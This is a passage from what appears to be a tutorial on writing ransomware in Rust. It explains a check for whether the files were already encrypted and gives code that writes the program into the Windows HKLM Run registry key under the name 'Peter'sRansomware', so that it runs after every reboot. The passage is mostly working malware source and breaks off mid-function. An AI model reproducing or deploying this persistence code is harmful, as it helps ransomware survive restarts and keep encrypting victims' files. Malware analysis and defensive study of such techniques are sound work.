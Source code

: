 Note: We are calling [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) with a flag of **OPEN_EXISTING**. This will fail if the file does not exist and can't be open. This is a simple hack combining with what we did after the encryption phase in order to check if we already encrypt the file system.


In order to make our executable run every time after reboot, we just need to write our executable file name to the registry **"Software\\Microsoft\\Windows\\CurrentVersion\\Run"**. Every executable in this registry will be set up to automatically run after shutdown or reboot.

``` rust
   fn add_registry() -> bool {
       unsafe {
           let mut registry_handle: HKEY = null_mut();
           if RegOpenKeyExA(
               HKEY_LOCAL_MACHINE,
               CString::new("Software\\Microsoft\\Windows\\CurrentVersion\\Run")
                   .unwrap()
                   .as_ptr(),
               0,
               KEY_ALL_ACCESS,
               &mut registry_handle,
           ) != 0
           {
               println!("Fail to open registry key");
               RegCloseKey(registry_handle);
               return false;
           }

           let mut reg_type: u32 = 0;
           let mut path: Vec<u8> = Vec::new();
           let mut size: u32 = 200;
           path.resize(200, 0u8);

           if RegGetValueA(
               HKEY_LOCAL_MACHINE,
               CString::new("Software\\Microsoft\\Windows\\CurrentVersion\\Run")
                   .unwrap()
                   .as_ptr(),
               CString::new("Peter'sRansomware").unwrap().as_ptr(),
               2,
               &mut reg_type,
               path.as_ptr() as *const _ as *mut _,
               &mut size,
           ) != 0
           {
               let mut name: Vec<i8> = Vec::new();
               name.resize(200, 0i8);
               let mut length = GetModuleFileNameA(null_mut(), name.as_ptr() as *mut i8, 200);
               let mut path: Vec<u8> = Vec::new();
               for i in 0..length as usize {
                   path.push(name[i].clone() as u8);
               }
               path.push(0u8);
               length += 1;

               if RegSetValueExA(
                   registry_handle,
                   CString::new("Peter'sRansomware").unwrap().as_ptr(),
                   0,
                   REG_SZ,
                   path.as_ptr(),
                   length,
               ) != 0
               {
```